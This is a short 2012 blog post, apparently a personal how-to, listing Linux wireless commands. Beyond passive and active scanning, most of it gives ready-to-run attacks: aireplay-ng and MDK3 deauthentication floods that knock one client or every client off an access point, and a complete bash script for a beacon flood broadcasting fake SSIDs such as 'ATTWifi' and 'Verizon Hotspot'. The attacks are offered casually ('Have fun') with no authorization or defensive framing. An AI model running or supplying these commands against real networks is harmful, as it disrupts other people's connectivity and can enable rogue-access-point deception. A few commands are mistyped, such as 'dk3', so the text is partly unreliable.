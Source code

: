 ```yaml
---
title:  Wireless Fun with Aircrack and Others
date:   2012-11-05 00:00:00 -0500
categories: IT
---
```


# Aircrack and Other Wireless Tools

A short list of some things you can do with wireless on a linux box. Have fun.

> [!WARNING]
> This information was written in 2012. It probably needs some updating.

## Determine Modes your NIC is capable of

```bash
airmon-ng (find PHY# for your NIC)
iw phy phy1 info | grep â€“A8 modes
```

## Passive Scan (Should not generate any frames)

```bash
iw dev wlan0 scan passive | grep SSID
```

## Active Scan

```bash
iw dev wlan0 scan | grep SSID
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 channel #
iwconfig wlan0 essid <ssid>
iwconfig wlan0 mode managed
```

## Deauthorization

```bash
iwconfig mon0 channel #
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```

- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- -a 00:14:6C:7E:40:80 is the MAC address of the access point
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- ath0 is the interface name

## Deauthorization with MDK3

```bash
airmon-ng start wlan0
dk3 mon0 d
```

or

```bash
mdk3 mon0 d -w whitelist (deauth everything not listed in file)
```

or

```bash
mdk3 mon0 d -b blacklist (deauth everything listed in file)

d - deauthorization mode
w - whitelist
b - blacklist```
## Broadcast Network Names with MDK3
```bash
airmon-ng start wlan0
mdk3 mon0 b -c 11 -f ssid_names
```

- b - beacon flood mode
- c - channel
- f - text file with ssid names

Everything you need to run a beacon flood in one script.

```bash
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
```

- [8 Linux Commands: To Find Out Wireless Network Speed, Signal Strength And Other Information]("http://www.cyberciti.biz/tips/linux-find-out-wireless-network-speed-signal-strength.html" )
- [aircrack-ng Deauthorize]("http://www.aircrack-ng.org/doku.php?id=deauthentication" )
- [airmon-ng]("http://www.aircrack-ng.org/doku.php?id=airmon-ng" )
- [iwconfig man page]("http://www.linuxcommand.org/man_pages/iwconfig8.html" )
- [iw command info]("http://wireless.kernel.org/en/users/Documentation/iw" )

